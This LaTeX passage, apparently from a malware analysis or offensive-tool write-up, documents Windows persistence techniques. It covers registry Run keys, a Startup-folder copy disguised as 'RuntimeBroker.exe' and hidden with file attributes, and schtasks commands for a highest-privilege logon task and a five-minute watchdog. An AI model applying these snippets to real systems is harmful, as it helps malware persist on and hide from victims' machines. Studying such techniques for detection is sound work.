 \documentclass[12pt,a4paper]{article}
\begin{document}
Multiple registry locations are used for redundancy:

\begin{itemize}
    \item \texttt{HKCU\textbackslash Software\textbackslash Microsoft\textbackslash Windows\textbackslash CurrentVersion\textbackslash Run} (User)
    \item \texttt{HKCU\textbackslash ...\textbackslash RunOnce} (Backup)
    \item \texttt{HKLM\textbackslash ...\textbackslash Run} (System-wide, requires admin)
\end{itemize}

\subsection{Layer 2: Startup Folder}

The executable is copied to the Startup folder with a disguised name:

\begin{lstlisting}[style=cstyle, caption={Startup Folder Persistence}]
// Get startup folder path
SHGetFolderPath(NULL, CSIDL_STARTUP, NULL, 0, startupPath);

// Copy with disguised name (e.g., "RuntimeBroker.exe")
CopyFile(srcPath, destPath, FALSE);

// Hide the file
SetFileAttributes(destPath, FILE_ATTRIBUTE_HIDDEN | FILE_ATTRIBUTE_SYSTEM);
\end{lstlisting}

\subsection{Layer 3: Scheduled Tasks}

Two scheduled tasks provide additional persistence:

\begin{enumerate}
    \item \textbf{Logon Trigger}: Runs when any user logs in
    \item \textbf{Time-based Watchdog}: Runs every 5 minutes
\end{enumerate}

\begin{lstlisting}[style=bashstyle, caption={Scheduled Task Creation}]
schtasks /Create /TN "RuntimeBroker" /TR "path" /SC ONLOGON /RL HIGHEST
schtasks /Create /TN "RuntimeBrokerUpdate" /TR "path" /SC MINUTE /MO 5
\end{lstlisting}
\end{document}
